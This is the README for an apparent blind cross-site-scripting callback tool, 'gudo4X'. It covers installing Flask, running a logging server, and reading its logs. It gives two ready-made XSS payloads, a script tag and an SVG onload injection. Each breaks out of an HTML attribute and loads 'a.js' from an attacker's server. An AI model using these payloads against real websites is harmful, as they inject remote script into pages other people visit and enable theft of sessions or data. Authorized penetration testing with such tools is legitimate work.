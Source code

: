 ## gudo4X - guide dog for xss

### dependencies
* install flask and magic

```bash
sudo apt update && sudo apt install -y python3-flask python3-magic
```

* (for https) put cert files in project directory (cert.pem, key.pem)

### running

```bash
sudo bash start.sh start &
```

* send the script in a xss:
```html
'"><script/src=https://yourserver/a.js></script>
```

```html
'"><svg/onload=body.appendChild(document.createElement`script`).src="https://yourserver/a.js">
```

* see the log directory

### clean logs
```bash
sudo bash run.sh clean
```
